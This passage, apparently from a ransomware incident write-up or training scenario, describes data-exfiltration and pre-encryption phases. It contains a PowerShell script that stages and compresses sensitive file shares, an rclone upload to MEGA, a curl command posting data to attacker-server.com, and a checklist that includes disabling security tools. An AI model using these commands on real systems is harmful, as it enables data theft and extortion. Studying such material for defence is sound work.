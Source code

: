 ### Phase 7: Data Exfiltration (Days 19-22)

**Data Staging**:
```powershell
# Create staging directory
New-Item -Path "C:\Windows\Temp\staging" -ItemType Directory -Force

# Compress target data
$targets = @(
    "\\fileserver01\Finance$",
    "\\fileserver02\Engineering$",
    "\\fileserver03\HR$",
    "\\sapserver\backups",
    "\\dc01\SYSVOL"
)

foreach ($target in $targets) {
    Compress-Archive -Path $target -DestinationPath "C:\Windows\Temp\staging\$(Get-Random).zip"
}
```

**Exfiltration Tools**:
```bash
# Using Rclone (legitimate cloud sync tool)
rclone copy C:\Windows\Temp\staging\ mega:exfiltrated_data/ --transfers 10

# Alternative: Direct upload via HTTPS
curl -X POST -F "file=@data.zip" https://attacker-server.com/upload

# Using compromised cloud storage
# 500GB transferred over 72 hours to avoid detection
```

**Exfiltrated Data**:
```mermaid
pie title Data Exfiltrated by Category (500GB Total)
    "Financial Records" : 120
    "Customer Data & Contracts" : 150
    "Intellectual Property" : 80
    "Manufacturing Processes" : 90
    "Employee PII" : 40
    "Strategic Documents" : 20
```

### Phase 8: Ransomware Deployment (Day 23)

**Pre-Encryption Checklist**:
- ✅ Domain admin access confirmed
- ✅ Data exfiltrated (500GB)
- ✅ Backups located and encrypted
- ✅ Security tools disabled
- ✅ Persistence established
- ✅ Maximum impact timing (Friday 6:00 AM)
